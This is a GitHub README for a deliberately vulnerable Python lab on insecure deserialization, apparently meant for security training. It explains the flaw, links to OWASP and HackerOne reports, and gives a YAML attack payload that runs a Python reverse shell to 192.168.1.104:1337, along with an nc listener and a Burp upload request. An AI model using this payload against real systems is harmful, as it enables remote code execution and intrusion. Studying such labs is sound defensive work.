





# python-InsecureDeserialization

Unsafe Deserialization (also referred to as Insecure Deserialization) is a vulnerability wherein malformed and untrusted data input is insecurely deserialized by an application. It is exploited to hijack the logic flow of the application end might result in the execution of arbitrary code. Although this isn't exactly a simple attack to employ, it featured in OWASP's Top 10 most recent iteration due to the severity of impact upon compromise.

The process of converting an object state or data structure into a storable or transmissible format is called serialization. Deserialization is its opposite - the process of extracting the serialized data to reconstruct the original object version.

Unsafe Deserialization issues arise when an attacker is able to pass ad hoc malicious data into user-supplied data to be deserialized. This could result in arbitrary object injection into the application that might influence the correct target behavior.

## Impact

A successful Unsafe Deserialization attack can result in the full compromise of the confidentiality, integrity, and availability of the target system, and the oft-cited Equifax breach is probably the best example of the worst outcome that can arise. In Equifax's case, an unsafe Java deserialization attack leveraging the Struts 2 framework resulted in remote code execution, which, in turn, led to the largest data breach in history.

## Owasp  👑

https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html

https://owasp.org/www-project-top-ten/2017/A8_2017-Insecure_Deserialization

## How to Serialize pickle library

## How to Serialize Yaml   

## install Lab 

    docker run -itd -p 5050:5050 mhnamadi/pythondeserialization-1:latest

## Attack Payload 

    name: mh namadi payment 3
    reason: !!python/object/apply:os.system ["echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.1.104\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);' > shell.py && python shell.py &"]
    merchant: Catch Taxi
    amount: 85
    card: 4111111111111111

    # nc -lvp 1337

## Burp Request

    POST /yaml_hammer HTTP/1.1
    Host: localhost:5050
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Content-Length: 324
    User-Agent: HTTPie/3.0.2
    Content-Type: multipart/form-data; boundary=8b572135883f4c079e31f790d2827955

    --8b572135883f4c079e31f790d2827955
    Content-Disposition: form-data; name="file"; filename="reverse_shell.yml"

    name: mh namadi payment 3
    merchant: Catch Taxi
    amount: 85
    card: 4111111111111111
    --8b572135883f4c079e31f790d2827955
    Content-Disposition: form-data; name="submit"

    submit
    --8b572135883f4c079e31f790d2827955--

## Twitter & Facebook Contributor :
   
 https://www.linkedin.com/in/mohammad-hussein-namadi-775baa131/

## Hint Fix  🧐 🤓

https://github.com/instrumenta/openapi2jsonschema/commit/ed24ff4e3fc5c838490525d56048db3cee90329f?diff=split#diff-453148a7ebe7bb6a47c6d09567ec9befL151
     
## Fix 

We encourage you to contribute to Project and Fix Codes

If you want to pull request please follow this :

CONTRIBUTION.md

## Report Example

1. https://hackerone.com/reports/1174185
2. https://hackerone.com/reports/838196
3. https://hackerone.com/reports/562335
4. https://hackerone.com/reports/350401
5. https://hackerone.com/reports/350418
6. https://hackerone.com/reports/350418
7. https://hackerone.com/reports/453791
8. https://hackerone.com/reports/274990
9. https://blog.sorcery.ie/posts/higherlogic_rce/
10. https://medium.com/@frycos/searching-for-deserialization-protection-bypasses-in-microsoft-exchange-cve-2022-21969-bfa38f63a62d
11. https://irsl.medium.com/the-nomulus-rift-935a3c4d9300
12. https://blog.gypsyengineer.com/en/security/detecting-jackson-deserialization-vulnerabilities-with-codeql.html
13. https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464
